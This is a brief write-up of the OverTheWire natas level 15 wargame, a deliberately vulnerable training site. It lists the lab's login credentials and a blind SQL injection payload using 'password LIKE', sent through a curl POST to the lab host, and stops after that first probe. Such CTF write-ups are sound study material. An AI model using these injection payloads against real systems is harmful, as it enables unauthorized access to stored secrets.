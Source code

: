 # natas level15
natas is CTF with web application.
password will be stored in `/etc/natas_webpass/natas15`.

## using credential is below.
- User:natas15
- Pass:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## using tools.
- shell(curl, base64, etc)
- lynx
- exiftool
check web site by lynx.
`lynx http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org`

This website has input box for username and search user is exist or not.
And this site has sql injection vulnerability, but retun info only data is exist or not.

I send following and I see that I will get password with many requests.
`natas16" AND password LIKE "%a%"; -- `
`curl -X POST 'http://natas15.natas.labs.overthewire.org/index.php?debug' -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J -d 'submit=Check%20existence&username=natas16%22%20AND%20password%20LIKE%20%22%25a%25%22%3b%20%2d%2d%20'`



